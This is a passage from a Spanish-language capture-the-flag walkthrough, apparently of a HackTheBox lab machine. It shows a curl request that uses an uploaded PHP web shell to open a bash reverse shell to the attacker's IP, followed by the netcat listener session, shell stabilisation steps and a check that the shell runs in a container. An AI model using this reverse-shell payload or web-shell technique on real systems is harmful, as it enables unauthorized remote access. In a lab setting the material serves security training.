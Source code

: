 Tengo conectividad con mi equipo, me mandé un ping y lo recibí

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:42:14.083760 IP 10.10.11.167 > 10.10.16.7: ICMP echo request, id 678, seq 0, length 64
11:42:14.083857 IP 10.10.16.7 > 10.10.11.167: ICMP echo reply, id 678, seq 0, length 64
```

Puedo enviarme una reverse shell

```null
curl -s -X GET "portal.carpediem.htb/uploads/1676202000_cmd.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.7/443+0>%261'"
```

Y la recibo en una sesión en netcat

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.167] 34360
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@3c371615b7aa:/var/www/html/portal/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@3c371615b7aa:/var/www/html/portal/uploads$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@3c371615b7aa:/var/www/html/portal/uploads$ export TERM=xterm
www-data@3c371615b7aa:/var/www/html/portal/uploads$ export SHELL=bash
www-data@3c371615b7aa:/var/www/html/portal/uploads$ stty rows 55 columns 209
```

Estoy dentro de un contenedor

```nul
www-data@3c371615b7aa:/var/www/html/portal/uploads$ hostname -I
172.17.0.6 
```

# Intrusión Alternativa

Hay una sección donde puedo modificar los datos de mi cuenta (proporcionados previamente en el registro)

